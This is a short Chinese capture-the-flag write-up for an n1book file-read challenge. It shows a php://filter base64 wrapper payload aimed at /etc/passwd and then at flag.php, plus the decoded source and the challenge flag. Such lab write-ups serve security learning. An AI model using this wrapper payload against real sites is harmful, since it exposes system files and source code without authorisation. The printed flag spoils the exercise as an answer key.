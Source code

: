 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{afr_1_solved}`

## 思路
1. 访问环境时注意参数`?p=hello`，可以遍历一下命令`cmd、ls、whoami、flag`等，当输入**flag**时，提示nonono，开始尝试php伪协议。
**此处p=hello表示的应该是指向hello.php文件**

![](./images/afr1.png)
2. 这里我首先通过伪协议判断能不能读取/etc/passwd，没有反馈，在这里卡了很久
    - php://filter/read=convert.base64-encode/resource=/etc/passwd
3. 后来修改/etc/passwd为flag，获得base64码
    - PD9waHAKZGllKCdubyBubyBubycpOwovL24xYm9va3thZnJfMV9zb2x2ZWR9
4. 解码得到
`flag.php`
```php
<?php
die('no no no');
//n1book{afr_1_solved}
```
同理`hello.php`
```php
<?php

echo "hello world!";
```
与之前猜测一致
## 总结
这种题目一定要抓住关键词，本题给了**hello关键字**，应该立马联想到伪协议读取hello，然后再读取passwd等文件